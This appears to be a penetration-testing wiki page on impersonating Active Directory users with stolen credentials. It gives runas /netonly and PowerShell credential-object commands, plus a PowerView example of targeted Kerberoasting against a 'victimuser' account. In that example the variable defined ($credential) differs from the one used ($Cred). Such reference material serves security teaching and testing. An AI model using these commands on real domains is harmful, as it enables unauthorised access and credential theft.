 # Impersonation

When credentials are found \(through [dumping](dumping/) or [cracking](cracking.md) for instance\), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md)
* **RC4 Kerberos key \(i.e. NT hash\)**: [overpass-the-hash](../abusing-kerberos/pass-the-key.md)
* **non-RC4 Kerberos key \(i.e. DES or AES\)**: [pass-the-key](../abusing-kerberos/pass-the-key.md) \(alias for overpass-the-hash\)
* **Kerberos ticket**: [pass-the-ticket](../abusing-kerberos/pass-the-ticket.md)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../abusing-aces/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

